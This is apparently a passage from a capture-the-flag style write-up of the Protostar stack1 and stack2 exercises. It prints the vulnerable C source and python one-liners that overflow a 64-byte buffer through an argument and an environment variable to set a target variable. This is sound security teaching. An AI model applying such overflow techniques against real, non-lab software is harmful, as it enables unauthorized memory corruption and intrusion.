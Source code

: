 This is similar to the `stack 00` but this time we need to write a specific value into
`modified`. The values are the ASCII codes for *abcd*. So let's try that

{{< highlight console >}}
protostar:/opt/protostar/bin$ ./stack1 `python -c 'print "a"*65 + "abcd"'`
Try again, you got 0x64636261
{{< / highlight >}}

Can you tell why this happened? The problem statement mentions the issue: *litte endian*
All we need to do it reverse the string

{{< highlight console >}}
protostar:/opt/protostar/bin$ ./stack1 `python -c 'print "a"*65 + "dcba"'`
you have correctly got the variable to the the right value
{{< / highlight >}}

# Stack 02 #

> Stack2 looks at environment variables, and how they can be set.

{{< highlight C >}}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
{{< / highlight >}}

This is another variation of what we have already done, except now we feed the input
into the program via the environment. It wants a specific value, which we'll provide
using python again.

{{< highlight console >}}
protostar:/opt/protostar/bin$ export GREENIE=`python -c 'print "a"*64+"\x0a\x0d\x0a\x0d"'`
protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
{{< / highlight >}}

